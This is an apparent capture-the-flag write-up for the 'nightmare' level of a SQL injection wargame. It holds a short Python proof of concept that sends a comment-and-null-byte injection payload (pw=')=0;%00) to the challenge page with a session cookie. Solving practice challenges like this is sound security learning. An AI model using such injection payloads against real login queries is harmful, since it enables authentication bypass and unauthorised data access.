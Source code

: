 url : https://los.rubiya.kr/chall/nightmare_be1285a95aa20e8fa154cb977c37fee5.php

# Summary
- We don't have to get ADMIN, just bypass QUERY is enough
- make it true QUERY

# PoC
```python
import requests

header = {"Cookie": "PHPSESSID=lldbmoaqjlmg994kn38cc31dlc;"}
url = "https://los.rubiya.kr/chall/nightmare_be1285a95aa20e8fa154cb977c37fee5.php"

payload = "?pw=')=0;%00"

res = requests.get(url + payload, headers=header)

if "Clear!" in res.text:
    print("Clear!")
```

Vamos~